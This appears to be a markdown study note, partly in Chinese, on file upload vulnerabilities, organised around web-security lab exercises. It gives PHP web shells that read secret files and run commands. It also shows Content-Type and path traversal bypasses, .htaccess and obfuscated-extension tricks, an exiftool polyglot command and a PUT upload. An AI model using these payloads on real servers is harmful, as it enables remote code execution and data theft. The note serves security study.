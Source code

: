 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

## PHP 
- "<"?php echo file_get_contents('/path/to/target/file'); ?">"
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

**Lab: Remote code execution via web shell upload**
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<"?php echo file_get_contents('/home/carlos/secret'); ?">)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

## Web server prevent 
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png
  
**Lab: Web shell upload via Content-Type restriction bypass**
- change Content-Type : image/jpeg

**Lab: Web shell upload via path traversal**
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
- filename="..%2fexploit.php"
- GET /files/exploit.php

## 黑名單
- 鮮為人知的替代檔案副檔名 e.g .php5 .shtml
- /etc/apache2/apache2.conf
    - LoadModule php_module /usr/lib/apache2/modules/libphp.so <br>
        AddType application/x-httpd-php .php
- Apache 伺服器 : (.htaccess)
- IIS 伺服器 : (web.config)
    - <"staticContent>
        <"mimeMap fileExtension=".json" mimeType="application/json" /"><br>
        </staticContent">

**Lab: Web shell upload via extension blacklist bypass**
- filename : .htaccess
- Content-Type : text/plain
- AddType application/x-httpd-php .l33t
- exploit.l33t 

## Obfuscating file extensions
- 多個擴充名 : exploit.php.jpg
- 新增尾隨字元 : exploit.php.
- 使用 URL 編碼 : exploit%2Ephp
- 加上分號 : exploit.asp;.jpg
- 加上URL 編碼的空位元組字元 : exploit.asp%00.jpg
- 使用多位元組 Unicode 字符 : xC0 x2E、xC4 xAE、xC0 xAE會轉換為x2E
- 剝離 : exploit.p.phphp

**Lab: Web shell upload via obfuscated file extension**
- filename="exploit.php%00.jpg"
- exploit.php

## Flawed validation
- 位元組序列
- JPEG 檔案始終以位元組 開頭FF D8 FF
- 使用 ExifTool 等特殊工具

**Lab: Remote code execution via polyglot web shell upload**
- exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

## Other 
**Exploiting file upload race conditions**
- 先將檔案上傳到一個臨時的沙盒目錄，並隨機化檔案名稱以避免覆蓋現有檔案

**Exploiting file upload vulnerabilities without remote code execution**
- 上傳 HTML 檔案或 SVG 圖像
- <script>

**Exploiting vulnerabilities in the parsing of uploaded files**
- 嘗試利用特定於解析或處理不同檔案格式的漏洞
- .doc.xls.xml
-  XXE 注入攻擊的潛在載體
  
**使用 PUT 上傳文件**
- OPTIONS 向不同的端點發送請求，以測試是否有任何端點支援該PUT方法
- PUT /images/exploit.php HTTP/1.1
- Host: vulnerable-website.com
- Content-Type: application/x-httpd-php
- Content-Length: 49
- <"?php echo file_get_contents('/path/to/file'); ?">

## Prevent file upload vulnerabilities
- 白名單
- X （../）
- 請勿將其上傳到伺服器的永久檔案系統 /temp
